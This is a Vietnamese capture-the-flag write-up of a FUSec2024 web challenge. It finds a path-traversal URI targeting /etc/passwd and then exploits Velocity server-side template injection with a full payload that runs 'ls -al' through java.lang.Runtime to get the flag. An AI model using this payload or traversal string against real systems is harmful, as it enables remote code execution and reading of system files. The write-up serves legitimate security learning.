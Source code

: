 # lsH0wSp33d

Bởi vì team mình là team có 3 người chơi forensics và 1 người chơi crypto. Vậy nên, bọn mình chỉ có thể solve được 1 bài web duy nhất

![image](https://github.com/anhshidou/FUSec2024/assets/120787381/cd6bebfd-8409-48ef-bc99-a17d3e5520b9)

Ở đây, ta thử scan web xem có cái gì không. Sau khi scan ra, mình thấy 1 uri đáng ngờ là ``` /\..\..\..\..\..\..\..\..\..\etc\passwd ```

![image](https://github.com/anhshidou/FUSec2024/assets/120787381/523df1d6-6667-4f46-9e74-1f619aded8a4)

Sau khi paste vào url thì mình thấy giao diện web không còn gì cả, không còn màu mè hoa lá

![image](https://github.com/anhshidou/FUSec2024/assets/120787381/289d0c5b-5abb-461b-bebe-d3e3e86ebe1e)

Sau đó, mình thử bấm enter để search thì nó xuất hiện một dòng có vẻ như là vuln của web này ? Vì mình không học web mà chỉ là rẽ ngang nên không rõ lắm

![image](https://github.com/anhshidou/FUSec2024/assets/120787381/11dfde2e-afea-4c66-affd-3c9645ad6e09)

Sau khi qua tìm hiểu, mình thấy rằng velocity là 1 Java-based Template. Vì thế nên, có thể sẽ có đoạn payload nào đó để inject vào trong cái bài này. Mình google thử velocity payload shell script thì ra được đoạn payload là:

``` #set($engine="string")#set($run=$engine.getClass().forName("java.lang.Runtime"))#set($runtime=$run.getRuntime())#set($proc=$runtime.exec("ls -al"))#set($null=$proc.waitFor())#set($istr=$proc.getInputStream())#set($chr=$engine.getClass().forName("java.lang.Character"))#set($output="")#set($string=$engine.getClass().forName("java.lang.String"))#foreach($i in [1..$istr.available()])#set($output=$output.concat($string.valueOf($chr.toChars($istr.read()))))#end$output ```

src: https://github.com/epinna/tplmap/issues/9

Lúc này, ta thử paste đoạn payload kia vào trong ô search keywords và ra được kết quả

![image](https://github.com/anhshidou/FUSec2024/assets/120787381/eb95dc5e-0ff5-4370-a332-6f5455a559ef)

Flag: FUSec{v3l0c1ty_SSTI_1s_34sy_4s_h3ll}








